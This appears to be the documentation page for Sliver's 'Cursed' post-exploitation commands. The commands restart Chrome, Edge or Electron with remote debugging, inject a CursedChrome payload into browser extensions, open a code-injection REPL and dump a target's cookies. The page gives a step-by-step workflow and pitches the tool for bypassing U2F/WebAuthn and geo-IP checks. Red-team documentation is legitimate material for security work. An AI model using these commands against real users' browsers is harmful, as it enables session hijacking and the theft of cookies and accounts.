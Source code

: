 Cursed is a Chrome/Chromium/Edge/Electron post-exploitation tool kit introduced in Sliver v1.5.25, which integrates with [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome) (originally [Sliver Overlord](https://github.com/BishopFox/sliver-overlord)). It can automatically find existing Chrome Extensions with the required permissions for [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome) and remotely inject it onto the target system, or you can start an interactive REPL to inject arbitrary code into any Chrome/Chromium/Edge/Electron context.

Since web requests and other activity originate from the target machine/browser instance, Cursed Chrome and the Cursed tool kit are excellent options for bypassing U2F/Webauthn, hardware attestation, and geo-IP restrictions in web applications.

## Cursed Chrome

The `cursed chrome` command can be used to restart a remote system's Chrome browser with remote debugging enabled. If no payload is specified using `--payload` the command will simply restart Chrome with remote debugging enabled, you can then use `cursed console` to interact with any debug target. 

If a payload is specified, the command will restart Chrome with remote debugging, enumerate installed browser extensions, determine if any extension has the required permissions for [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome), and inject the payload into the extension's execution context.

So a typical workflow looks like:
1. Setup [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome)
2. Pop Sliver session, or go interactive from a beacon
3. `cursed chrome --payload background.js`
4. Upstream browser to CursedChrome proxy
5. Enjoy!

## Cursed Edge

Works identically to `cursed chrome` but the UI displays "Edge" instead of "Chrome" much like Edge itself.

## Cursed Electron

The `cursed electron` command can be used to restart an Electron application with remote debugging enabled, you can subsequently use `cursed console` to interact with any debug target. Note that some Electron applications disable the remote debugging functionality, which will prevent this feature from working.

## Cursed Console

The `cursed console` command can be used to start an interactive REPL with any cursed process. You will need to start a cursed process using `cursed chrome` or `cursed electron` before using `cursed console`. You can list cursed processes using the `cursed` command.

<img width="1411" alt="Screen Shot 2022-09-02 at 4 31 44 PM" src="https://user-images.githubusercontent.com/875022/188246398-97e5c7dd-1c21-4aeb-a57e-222fda826e66.png">

## Cursed Cookies

Starting in v1.5.28 the `cursed cookies` command can be used to dump a remote cursed process' cookies to a local file (newline delimited json), for example:

```
[server] sliver (CHRONIC_GOAT) > cursed chrome

...

[server] sliver (CHRONIC_GOAT) > cursed cookies 

? Select a curse: 44199  [Session 56a5cd6f]  /Applications/Google Chrome.app/Contents/MacOS/Google Chrome

[*] Successfully dumped 437 cookies
[*] Saved to cookies-20220925182151.json

```
